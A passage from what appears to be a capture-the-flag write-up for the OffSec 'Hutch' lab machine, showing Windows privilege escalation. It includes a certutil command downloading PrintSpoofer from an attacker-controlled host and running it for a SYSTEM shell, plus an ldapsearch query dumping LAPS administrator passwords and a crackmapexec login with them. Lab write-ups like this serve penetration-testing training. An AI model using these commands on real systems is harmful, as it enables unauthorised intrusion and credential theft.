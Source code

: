 
<div style="background-color: #1e2124; padding: 10px;">
c:\windows\system32\inetsrv><span style="color:red">certutil -urlcache -split -f http://192.168.45.158:5985/PrintSpoofer64.exe c:\users\public\printspoofer.exe</span>
</div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
c:\windows\system32\inetsrv><span style="color:red">c:\users\public\printspoofer.exe -i -c powershell.exe</span>
</div>
<br>

![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/14.png)


<div style="background-color: #1e2124; padding: 10px;">
PS C:\users\fmcsorley\desktop><span style="color:red"> type local.txt ;whoami ;hostname ;ipconfig</span>
</div>
<br>

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/15.png)


<div style="background-color: #1e2124; padding: 10px;">
PS C:\users\administrator\desktop><span style="color:red"> type proof.txt ;whoami ;hostname ;ipconfig</span>
</div>
<br>

![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/16.png)


## Second Method:


This one is actually much more easier. 

![gif 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/batman.gif)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ldapsearch -x -H ldap://192.168.191.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd</span>
</div>

<br>
 

![image 16](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/17.png)

>administrator:G.5#w6MOz34lqW

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ crackmapexec smb 192.168.191.122 -d hutch.offsec -u administrator -p 'G.5#w6MOz34lqW'</span>
</div>
